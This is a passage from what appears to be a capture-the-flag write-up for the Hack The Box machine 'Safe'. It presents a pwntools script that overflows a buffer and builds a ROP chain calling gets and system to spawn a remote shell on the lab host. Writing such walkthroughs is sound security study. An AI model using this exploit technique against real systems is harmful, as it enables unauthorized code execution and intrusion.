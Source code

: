 ![Img](images/gdb.png)

Finally we can craft our payload with python's pwntools library, which makes everything much easier:

```py
import binascii
from pwn import *

context(os="linux", arch="amd64")

p = remote("safe.htb", 1337)

junk = "A"*120 # junk

pop_rdi  = p64(0x40120b)
gets     = p64(0x401060)
sys      = p64(0x401040) # can be either this address or the one from main
data_seg = p64(0x404038)

payload = junk
payload += pop_rdi + data_seg + gets
payload += pop_rdi + data_seg + sys

p.recvline()
p.sendline(payload)
p.sendline("/bin/sh")

p.interactive()
```

